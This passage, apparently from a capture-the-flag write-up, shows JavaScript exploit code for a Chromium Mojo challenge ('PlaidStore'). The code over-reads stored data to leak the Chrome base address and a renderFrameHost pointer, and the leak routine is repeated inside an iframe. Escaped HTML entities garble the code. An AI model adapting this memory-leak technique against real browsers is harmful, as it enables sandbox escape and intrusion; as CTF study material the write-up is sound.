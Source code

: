 ```
                //Same code with the one in pwn.js
                var stores = [];
                for(let i = 0;i&lt; 0x40; i++ )`{`
                    await p.storeData("yeet"+i,new Uint8Array(0x28).fill(0x41));
                    stores[i] = blink.mojom.PlaidStore.getRemote(true);
                `}`
                let chromeBase = 0;
                let renderFrameHost = 0;
                for(let i = 0;i&lt;0x40&amp;&amp;chromeBase==0;i++)`{`
                    let d = (await p.getData("yeet"+i,0x200)).data;
                    let u8 = new Uint8Array(d)
                    let u64 = new BigInt64Array(u8.buffer);
                    for(let j = 5;j&lt;u64.length;j++)`{`
                        let l = u64[j]&amp;BigInt(0xf00000000000)
                        let h = u64[j]&amp;BigInt(0x000000000fff)
                        if((l==BigInt(0x500000000000))&amp;&amp;h==BigInt(0x7a0))`{`
                            chromeBase = u64[j]-BigInt(0x9fb67a0);
                            renderFrameHost = u64[j+1];
                            break;
                        `}`
                    `}`
                `}`
                window.chromeBase = chromeBase;
                window.renderFrameHost = renderFrameHost;
                window.p = p;
                return chromeBase!=0&amp;&amp;renderFrameHost!=0;
            `}`
            &lt;/script&gt;
        `

        frame.srcdoc=`
            &lt;!DOCTYPE html&gt;
            &lt;html&gt;
                &lt;head&gt;
                &lt;/head&gt;
                &lt;body&gt;
                    &lt;script src="../mojo/public/js/mojo_bindings_lite.js"&gt;&lt;/script&gt;
                    &lt;script src="../third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"&gt;&lt;/script&gt;
                &lt;script&gt;
                  var p = blink.mojom.PlaidStore.getRemote(true);
                async function leak() `{`
                    //Same code with the one in pwn.js
                    console.log("Starting frame leak");
                    var stores = [];
                    for(let i = 0;i&lt; 0x40; i++ )`{`
                        await p.storeData("yeet"+i,new Uint8Array(0x28).fill(0x41));
                        stores[i] = blink.mojom.PlaidStore.getRemote(true);
                    `}`
                    let chromeBase = 0;
                    let renderFrameHost = 0;
                    for(let i = 0;i&lt;0x40&amp;&amp;chromeBase==0;i++)`{`
                        let d = (await p.getData("yeet"+i,0x200)).data;
                        let u8 = new Uint8Array(d)
                        let u64 = new BigInt64Array(u8.buffer);
                        for(let j = 5;j&lt;u64.length;j++)`{`
                            let l = u64[j]&amp;BigInt(0xf00000000000)
                            let h = u64[j]&amp;BigInt(0x000000000fff)
                            if((l==BigInt(0x500000000000))&amp;&amp;h==BigInt(0x7a0))`{`
                                chromeBase = u64[j]-BigInt(0x9fb67a0);
                                renderFrameHost = u64[j+1];
                                break;
                            `}`
```